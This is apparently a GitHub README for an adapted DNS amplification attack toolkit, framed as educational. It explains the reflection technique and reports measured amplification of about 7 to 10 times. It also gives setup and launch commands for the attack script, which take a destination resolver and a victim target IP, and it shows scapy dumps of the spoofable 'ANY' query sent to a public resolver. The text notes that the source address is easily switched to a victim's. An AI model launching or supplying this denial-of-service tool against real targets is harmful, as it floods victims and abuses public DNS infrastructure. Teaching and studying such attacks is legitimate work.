 DNS Amplification attack
===
Customization of the repository of tony2037
[github-Dns-Amplification-Attack](https://github.com/tony2037/Dns-Amplification-Attack)

Some adaptations have been made for easier deployment and more flexible use in an educational setting.

# How does it work ?
According to [DNS Amplification Attack](https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/) :

1. The attacker uses a compromised endpoint to send UDP packets with spoofed IP addresses to a DNS recursor. The spoofed address on the packets points to the real IP address of the victim.
2. Each one of the UDP packets makes a request to a DNS resolver, often passing an argument such as “ANY” in order to receive the largest response possible.
3. After receiving the requests, the DNS resolver, which is trying to be helpful by responding, sends a large response to the spoofed IP address.
4. The IP address of the target receives the response and the surrounding network infrastructure becomes overwhelmed with the deluge of traffic, resulting in a denial-of-service.

![](https://i.imgur.com/2LJ8JU4.png)

# Experience
## Explanation
In this experience, I firstly develop a toolkit base on **pathon scapy** which send a **UDP/IP** packet carry a **DNS** packet with **DNS Resource Record** packet.
The `destination` is `8.8.8.8`, which is well-known **google DNS server**.
In the experience phase, the `source address` is local, but can be easily change to `victim address` in attack phase.
- [ ] DAA.py
Used for lauching attack
- [ ] sniffer.py
Used for sniffing packet to varify

## Result
Sending: 70 bytes
Receiving: 500~ 700 bytes
Amplification is about 7 ~ 10 times

## Usage
### Build virtual environment
`virtualenv .`
### Install necessary packages
`pip3 install -r requirement`
### Lauch attack
sudo python DAA.py -D _destination_IP_ -T _target_IP_
### Sniffing
sudo python snifffer.py
### Snapshot
#### Send packet
```shell
         |###[ DNS Question Record ]### 
         |  qname     = 'qq.com'
         |  qtype     = ALL
         |  qclass    = IN
        an        = None
        ns        = None
        ar        = None

Are you sure you want to attack ? [Y]/NY
.
Sent 1 packets.
```
#### Sniffing
```shell
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 52
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x608a
     src       = 10.1.0.30
     dst       = 8.8.8.8
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = domain
        len       = 32
        chksum    = 0x9f30
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'qq.com.'
            |  qtype     = ALL
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None
```
